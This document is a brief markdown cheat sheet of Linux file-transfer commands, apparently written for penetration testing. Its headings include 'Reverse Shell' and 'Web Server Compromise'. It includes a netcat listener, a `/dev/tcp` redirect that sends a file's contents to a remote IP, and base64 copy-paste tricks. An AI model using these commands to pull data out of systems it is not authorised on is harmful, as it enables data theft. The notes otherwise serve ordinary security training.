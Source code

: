 # Linux File Transfer Methods

## HTTP
### Source Machine
```
python3 -m http.server [PORT]
```
```
python -m SimpleHTTPServer [PORT]
```
```
php -S $[IP]:[PORT]
````
### Destination Machine
#### Wget
```
wget [URL] -O [OUTPUT FILE]
```
#### cURL
```
curl -o [OUTPUT FILE] [URL]
```
## Netcat
### Source Machine
```
nc -nvlp [PORT] > [OUTPUT FILE]
```
### Destination Machine
```
cat [FILE NAME] > /dev/tcp/[IP]/[PORT]
```
## Reverse Shell
### Source Machine (Copy Result)
```
cat [FILE] | base64 -w 0; echo
```
### Destination Machine
```
echo [CLIPBOARD] | base64 -d > [OUTPUT FILE]
```
## Web Server Compromise
### Source Machine (Web Server)
Move the file into the location where the webserver is hosting the files.
Example
```
mv [FILE] /var/www/
```
### Destination Machine
Navigate to the website and the directory with the same name as the file.
Example
```
http://[IP]/[FILE]
```
